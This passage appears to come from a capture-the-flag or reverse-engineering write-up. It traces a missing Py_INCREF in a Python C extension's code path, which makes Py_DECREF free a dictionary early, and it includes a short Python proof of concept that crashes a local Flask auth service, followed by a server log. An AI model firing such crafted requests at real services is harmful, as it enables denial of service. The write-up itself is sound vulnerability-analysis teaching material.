 Notice that the line `*data = *data + 1;` is missing in the second code path. Further investigating showed that every other non-exception code path _also_ had that line. So, what was it for? Time to dive into [Python internals](https://docs.python.org/2.7/c-api/index.html).

*Python uses [reference counting](https://docs.python.org/2.7/c-api/refcounting.html) in addition to garbage collection. Reference counting is a way for the Python runtime to determine when it's safe to deallocate objects. Once an object's reference count hits 0, the object’s type deallocation function is invoked. These counts are increased by the `Py_INCREF` macro, and decreased by the `Py_DECREF` macro.*

In this case, `*data = *data + 1;` was `Py_INCREF` which increased the number of references to the `data` dictionary. The developer did this because `data` was put into the `return_list` variable, and so shouldn't be deallocated. However, in the other code path there was no `Py_INCREF`! And afterwards, the code hit this:
{% highlight c %}
*data = *data + -1;
if (*data == 0) {
  (**(code **)(data[1] + 0x30))(data);
}
{% endhighlight %}
It was `Py_DECREF`. It decreased the number of references (since this function was returning and no longer needed to reference that variable), and if the number of references was `0`, it would call `(**(code **)(data[1] + 0x30))(data);` We know `data` was a dictionary, which is `PyDict_Type` in CPython. By looking at the [source](https://github.com/python/cpython/blob/a8b89cd0611f2732491a72b37651f110fb0ed8ec/Objects/dictobject.c#L3194), I could see that `0x30` into the type structure was the deallocator, `dict_dealloc`. And that's exactly what would happen if the execution went down this code path. Since there was no `Py_INCREF` when `Py_DECREF` would be called, the reference count would hit `0`, and Python would deallocate that object.

Using this knowledge, I built a quick POC:
{% highlight python %}
import requests

HOST = 'localhost'
PORT = '5000'
BASE_URL = 'http://' + HOST + ':' + PORT

init = requests.get(BASE_URL)
cookies = init.cookies.get_dict()

for i in range(10):
    exploit = requests.post(
            BASE_URL + '/auth', 
            json={"data":{"username": "aaa", "password": "aaa"}},
            headers={'Content-Type': 'application/json'}, 
            cookies=cookies
    )

exploit = requests.post(
        BASE_URL + '/auth', 
        json={"data":{}},
        headers={'Content-Type': 'application/json'}, 
        cookies=cookies
)
{% endhighlight %}
and I successfully crashed the application:
{% highlight shell %}
➜  python auth.py
 * Serving Flask app "auth" (lazy loading)
 * Environment: production
   WARNING: Do not use the development server in a production environment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://127.0.0.1:5000/ (Press CTRL+C to quit)
127.0.0.1 - - [04/Jun/2019 20:35:26] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [04/Jun/2019 20:35:26] "POST /auth HTTP/1.1" 200 -
127.0.0.1 - - [04/Jun/2019 20:35:26] "POST /auth HTTP/1.1" 200 -